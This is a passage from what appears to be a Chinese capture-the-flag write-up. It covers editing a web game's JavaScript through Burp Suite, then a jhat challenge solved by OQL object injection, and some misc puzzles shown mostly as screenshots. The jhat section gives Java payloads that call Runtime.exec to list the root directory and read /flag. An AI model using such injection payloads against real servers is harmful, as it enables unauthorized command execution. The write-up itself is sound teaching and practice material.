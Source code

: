 随后在bp设置中，把不拦截js规则取消

![image-20240223145006997](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240223145006997.png)

![image-20240223145054049](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240223145054049.png)

修改返回的js中关键代码，`<.9?2:4`，2和4都修改为16384

```
var n=Math[x(494)]()<.9?2:4,e=new j(this.grid[x(477)](),n);
```

![image-20240223145243255](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240223145243255.png)

![image-20240223144818885](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240223144818885.png)

### [jhat]

![image-20240216123323260](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240216123323260.png)

[OQL(对象查询语言)在产品实现中造成的RCE(Object Injection)](https://wooyun.kieran.top/#!/drops/415.OQL(%E5%AF%B9%E8%B1%A1%E6%9F%A5%E8%AF%A2%E8%AF%AD%E8%A8%80)%E5%9C%A8%E4%BA%A7%E5%93%81%E5%AE%9E%E7%8E%B0%E4%B8%AD%E9%80%A0%E6%88%90%E7%9A%84RCE(Object%20Injection))

[JVM 对象查询语言（OQL）](https://blog.csdn.net/pange1991/article/details/82023771)

```
new java.util.Scanner(java.lang.Runtime.getRuntime().exec('ls /').getInputStream())
new java.util.Scanner(java.lang.Runtime.getRuntime().exec('cat /flag').getInputStream())
```

![image-20240216123720183](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240216123720183.png)

![image-20240216123737079](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240216123737079.png)

## misc

### [Sign in]

https://lab.magiconch.com/xzk/

![image-20240205223026314](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240205223026314.png)

从底部平视或者用图像编辑软件自动校正一下

### [签到]

![image-20240205223120871](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240205223120871.png)

### [希尔希尔希尔]

![image-20240204224421916](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240204224421916.png)
